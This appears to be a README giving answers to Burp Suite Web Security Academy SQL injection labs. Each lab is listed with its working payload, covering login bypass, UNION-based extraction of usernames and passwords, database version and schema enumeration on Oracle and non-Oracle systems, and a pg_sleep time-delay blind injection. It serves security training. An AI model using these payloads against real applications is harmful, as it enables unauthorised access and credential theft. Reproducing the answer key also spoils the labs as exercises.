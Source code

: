 # Burpsuite Lab Answers
## SQL injection 
### SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
#### Solution: '+OR+1=1--
![](Images/SQL-1.png)

### SQL injection vulnerability allowing login bypass
#### Solution: administrator'--
![](Images/SQL-2.png)

### SQL injection UNION attack, determining the number of columns returned by the query
#### Solution: 'UNION SELECT NULL, NULL, NULL--
![](Images/SQL-3.png)

### SQL injection UNION attack, finding a column containing text
#### Solution: 'UNION SELECT NULL,'HELLO BUDDY',NULL--
![](Images/SQL-4.png)

### SQL injection UNION attack, retrieving data from other tables
#### Solution: 'UNION SELECT username, password FROM users--
![](Images/SQL-5a.png)
![](Images/SQL-5b.png)

### SQL injection UNION attack, retrieving multiple values in a single column
#### Solution: 'UNION SELECT NULL,username||'~'||password FROM users--
![](Images/SQL-6.png)

### SQL injection attack, querying the database type and version on Oracle
#### Solution: 'UNION SELECT BANNER, NULL FROM v$version--
![](Images/SQL-7.png)

### SQL injection attack, querying the database type and version on MySQL and Microsoft
#### Solution: 'UNION SELECT @@version, NULL#
![](Images/SQL-8.png)

### SQL injection attack, listing the database contents on non-Oracle databases
#### Solution: Step-1 : '+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
![](Images/SQL-9a.png)
#### Solution: Step-2 : '+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_qrktla'--
![](Images/SQL-9b.png)
#### Solution: Step-3 : '+UNION+SELECT+username_gwlqzm,+password_ikxmsh+FROM+users_qrktla-
![](Images/SQL-9c.png)

### SQL injection attack, listing the database contents on Oracle
#### Solution: Step-1 : '+UNION+SELECT+table_name,NULL+FROM+all_tables--
![](Images/SQL-10a.png)
#### Solution: Step-2 : '+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_KNHGDL'--
![](Images/SQL-10b.png)
#### Solution: Step-3 : '+UNION+SELECT+USERNAME_XEIEJW,+PASSWORD_UHIKUI+FROM+USERS_KNHGDL--
![](Images/SQL-10c.png)


### Blind SQL injection with time delays
#### Solution: TrackingId=x'||pg_sleep(10)--
![](Images/SQL-13a.png)
